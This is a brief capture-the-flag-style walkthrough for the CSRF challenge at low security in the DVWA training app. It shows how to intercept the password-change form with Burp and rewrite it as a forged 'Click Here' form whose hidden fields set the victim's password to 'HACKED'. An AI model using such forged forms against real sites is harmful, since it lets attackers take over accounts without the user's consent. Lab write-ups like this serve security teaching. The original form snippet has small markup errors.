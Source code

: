 1. Copy source file code in DVWA CSRF low.
2. Open Burp and set up Burp to " Intercept is on " mode.
3. Copy GET request Burp catch.

Details about step 3 :

GET code might look like this
```
<form action="#" method="GET">

New password:<br />

<input type="password" AUTOCOMPLETE="off" name="password_new'><br />

Confirm new password:<br />

<Input type="password" AUTOCOMPLETE="off" name="password_conf><br />

<br />

<input type="submit" value="Change" name="Change"></form>
```
Now try to change that to something like this
```
<form action="http://localhost/DVWA-master/vulnerabilities/csrf/?" method="GET">

<h1>Click Here</h1>

<input type="hidden" AUTOCOMPLETE="off" name="password_new" value="HACKED">

<input type="hidden" AUTOCOMPLETE="off" name="password_conf" value="HACKED">

<input type="submit" value="Change" name="Change"></form>
```
By altering code, an attack has been create.

When target user click the " Click Here ", a request will be sent to change user's user name and password. It is able to perform by DVWA is on source code. There is no protection against CSRF, such as Anti-CSRF token.